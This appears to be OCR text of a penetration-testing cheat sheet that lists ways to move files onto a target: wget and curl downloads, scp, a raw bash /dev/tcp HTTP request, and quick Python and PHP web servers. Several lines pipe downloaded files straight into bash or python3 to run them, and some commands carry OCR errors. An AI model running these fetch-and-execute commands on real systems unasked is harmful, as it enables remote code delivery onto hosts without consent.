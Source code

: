 Method 4 Web-based Downloads

1. wget [URL/filename] -O /home/filename

- O option set the output  
    OPTIONAL: pipe the command to execute the file rather then download then execute
- | [method. EX. bash, python3]
- wget -q0- [URL/filename.py] | python3

---

Method 5 Web-based Download

1. curl -o [output] [URL/filename]  
    OPTIONAL: pipe the cmd to execute the file rather than download then execute

- | bash

---

Method 6 SCP

1. sudo systemctl enable ssh

- Enable ssh server

2. sudo systemctl start ssh

- Starting the ssh server

3. netstat -lnpt

- Checking for SSH listening port

4. scp[username]@[IP]:/[directory/file] .

- Download the file via SCP

---

Method 7 Download w/ Bash via Webserver  
1.exec 3<>/dev/tcp/[IP/80]

- Connect to the Target Webserver

2. echo -e "GET /file.sh HTTP/1.1\n\n">&3

- Send a HTTP GET request

3. cat <&3

- Print the Response

---

Method 8 -Create a Web Server

1. python3 -m http.server
    
2. python2.7 -m SimpleHTTPServer
    
3. php -S 0.0.0.0:8000
    